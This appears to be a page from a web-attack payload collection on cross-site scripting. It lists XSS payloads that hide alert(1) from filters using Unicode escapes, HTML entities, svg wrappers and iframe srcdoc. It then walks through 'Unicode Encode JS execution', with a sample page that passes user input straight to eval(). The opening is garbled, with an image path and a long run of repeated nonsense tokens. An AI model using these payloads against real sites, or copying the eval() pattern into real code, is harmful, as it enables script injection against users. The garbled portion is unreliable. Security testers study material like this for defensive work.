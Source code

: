 yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI' 'e' yuQjIjDI
```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</iframe>">
```
### Unicode Encode JS execution

#### Description
This technique involves encoding JavaScript code using Unicode characters to bypass input validation and execute arbitrary code on a vulnerable web application.

#### Exploitation
1. Identify a vulnerable input field where JavaScript code can be injected.
2. Craft the JavaScript payload that you want to execute.
3. Convert the payload into Unicode using the `\uXXXX` format, where `XXXX` represents the Unicode code point of each character.
4. Inject the encoded payload into the vulnerable input field.
5. The web application will decode the Unicode characters and execute the JavaScript code.

#### Example
Suppose there is a vulnerable input field that reflects user input without proper sanitization:

```html
<input type="text" id="inputField">
<button onclick="execute()">Submit</button>

<script>
function execute() {
  var userInput = document.getElementById("inputField").value;
  eval(userInput);
}
</script>
```

To exploit this vulnerability, you can encode the payload using Unicode characters:

```html
<script>
var payload = "\u0061\u006c\u0065\u0072\u0074('\u0048\u0061\u0063\u006b\u0065\u0064!')";
document.getElementById("inputField").value = payload;
</script>
```
